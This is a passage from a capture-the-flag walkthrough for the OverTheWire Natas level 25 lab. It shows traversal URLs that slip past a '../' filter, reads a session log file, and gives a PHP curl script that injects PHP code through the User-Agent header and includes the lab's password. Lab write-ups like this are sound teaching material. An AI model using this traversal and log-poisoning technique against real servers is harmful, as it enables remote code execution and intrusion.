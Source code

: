 ```text
http://natas25.natas.labs.overthewire.org/?lang=....//....//....//....//
```
This would include /var (obviously, it fails)  

```text
http://natas25.natas.labs.overthewire.org/?lang=....//....//....//
```
This would include /var/www (obviously, it fails)

Let's take a look at the `logRequest` function:

```php
function logRequest($message)
{  
    $log="[". date("d.m.Y H::i:s",time()) ."]";  
    $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];  
    $log=$log . " \"" . $message ."\"\n";   
    $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");  
    fwrite($fd,$log);  
    fclose($fd);  
}  
```


There is a file,"/var/www/natas/natas25/logs/natas25_" . session_id() .".log", where session_id() is the current PHPSESSID variable value. Grab the value using the Developer Tools:  

1. Select the Application tab
2. On Storage, click Cookies
3. Select the current website
4. Get the PHPSESSID value (should look something like this: qqkgms5ehb8negkg068l0mtgfg)

In my case, the url will be something like this:
```text
http://natas25.natas.labs.overthewire.org/?lang=....//....//....//natas/natas25/logs/natas25_qqkgms5ehb8negkg068l0mtgfg.log
```

You only need to change the qqkgms5ehb8negkg068l0mtgfg part of the url, because the server file structure is the same.By running this url, we get the content of the log file. Cool. Not, it would be really good, if we could print something usable in this file. Lets try something out.

```php
<?php
$url = "http://natas25.natas.labs.overthewire.org/?lang=....//....//....//natas/natas25/logs/natas25_qqkgms5ehb8negkg068l0mtgfg.log";
$ch = curl_init ($url);
curl_setopt($ch, CURLOPT_USERPWD,"natas25:O9QD9DZBDq1YpswiTM5oqMDaOtuZtAcx");  
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
curl_setopt($ch, CURLOPT_COOKIE, "PHPSESSID=qqkgms5ehb8negkg068l0mtgfg");
curl_setopt($ch, CURLOPT_USERAGENT, '<?php echo "This is a string from echo, yay!"; ?>');
$output = curl_exec ($ch);
curl_close($ch);
echo $output;
?>
```
